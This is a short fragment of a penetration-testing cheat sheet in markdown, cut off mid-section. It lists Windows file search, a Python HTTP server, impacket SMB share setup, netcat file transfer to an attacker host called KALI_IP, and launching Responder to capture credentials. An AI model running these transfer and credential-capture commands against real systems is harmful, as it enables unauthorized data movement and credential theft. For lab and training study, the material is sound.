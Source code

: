     ```
<br>

# Utils
### Search File
* windows
    * powershell Get-ChildItem
    ```
    Get-ChildItem -Path C:\ -Include FILE_REGEX -File -Recurse -ErrorAction SilentlyContinue
    ```

### File Transfer
* linux
    * python server
    ```
    python3 -m http.server
    ```

### SMB
* linux
    * smbserver
    ```
    impacket-smbserver test . -smb2support  -username kourosh -password kourosh
    ```
* windows
    * connect to smbserver
    ```
    net use m: \\KALI_IP\test /user:kourosh kourosh
    ```

### NetCat
* linux
    * listener
    ```
    nc -nvlp 9999 < file.txt
    ```
* windows
    * connect to nc listenter
    ```
    C:\Tools\nc.exe -nv KALI_IP 9999 > file.txt
    ```
<br>

# Responder
## Responder
### Launch Responder
* linux
    * launch responder with tunnel interface
    ```
    sudo /opt/responder/Responder.py -I tun0
    ```
* windows
    * opening an SMB session to \\WINDOWS01
